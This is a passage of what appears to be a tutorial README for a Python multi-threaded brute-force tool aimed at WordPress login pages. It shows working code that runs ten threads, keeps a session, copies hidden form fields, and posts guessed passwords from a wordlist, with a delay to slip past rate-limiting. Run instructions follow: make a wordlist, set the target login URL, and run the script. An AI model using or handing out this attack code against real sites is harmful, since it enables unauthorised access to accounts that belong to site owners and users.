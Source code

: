 
### **6️⃣ Start Multi-threaded Attack**
```python
def run_bruteforce(self, passwords):
    for _ in range(10):  # Launch 10 threads
        t = threading.Thread(target=self.web_bruter, args=(passwords,))
        t.start()
```
- **Runs 10 parallel threads**  
- **Passes `passwords` queue to each thread**  

---

### **7️⃣ Web Brute-Forcing**
```python
def web_bruter(self, passwords):
    session = requests.Session()  # Maintain session across requests
    resp0 = session.get(self.url)
    params = get_params(resp0.content)  # Extract hidden form fields
    params['log'] = self.username  # Username field

    while not passwords.empty() and not self.found:
        time.sleep(5)  # Avoid rate-limiting
        passwd = passwords.get()
        print(f'Trying username/password {self.username}/{passwd:<10}')
        params['pwd'] = passwd  # Password field
        resp1 = session.post(self.url, data=params)

        if SUCCESS in resp1.content.decode():  # Successful login detected
            self.found = True
            print(f"\nBruteforcing successful.")
            print("Username is %s" % self.username)
            print("Password is %s\n" % passwd)
```
### **💡 How it Works:**
1. **Maintains a session (`requests.Session()`)**  
2. **Loads the login page & extracts hidden fields**  
3. **Starts guessing passwords in a loop**  
4. **Sends login credentials via `POST` requests**  
5. **If the response contains `SUCCESS`, the correct password is found!** 🎯  

---

## **🚀 Running the Script**
1. **Ensure Python 3.x is installed**  
2. **Create a wordlist file (`cain.txt`)**  
3. **Modify `TARGET` to the correct WordPress login page**  
4. **Run the script**  
```bash
python script.py
```

---